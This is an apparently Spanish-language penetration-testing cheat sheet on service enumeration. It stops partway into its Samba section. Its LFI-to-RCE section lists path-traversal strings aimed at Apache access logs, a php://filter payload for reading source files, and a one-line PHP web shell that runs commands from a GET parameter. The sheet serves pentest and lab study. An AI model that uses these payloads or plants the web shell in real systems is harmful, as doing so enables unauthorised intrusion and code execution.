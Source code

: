 ```yaml
---
layout: post
title: Enumeración - CheetSheat
tags: [CheetSheat]
description: "Enumeración - CheetSheat"
---
```


* [Samba Port 445](#samba-port-445)
* [DNS 53](#dns-53)
* [MSQL 3306](#msql-3306)
* [HTTPS 443](#https-443)
* [SNMP UDP 161](#snmp-udp-161)
* [NFS 2049](#nfs-2049)
* [Transferencia de archivos](#transferencia-de-archivos)
  + [Linux](#linux)
  + [Windows](#windows)
* [Diccionarios](#diccionarios)
* [Nikto](#nikto)
* [Fuzzing Web](#fuzzing-web)
* [tshark](#tshark)


## LFI

### LFI to RCE

apache log
```
/.././.././../var/log/apache2/access.log
///////////..////////./.././/////////..//////log/apache2/access.log
```

```
php://filter/convert.base64-encode/resource=<file.php>
```

payload PHP

```
<?php system($_GET['cmd']); ?>
```

----

## Samba Port 445

### Iniciar samba

```
sudo service smbd start
```

### smbget
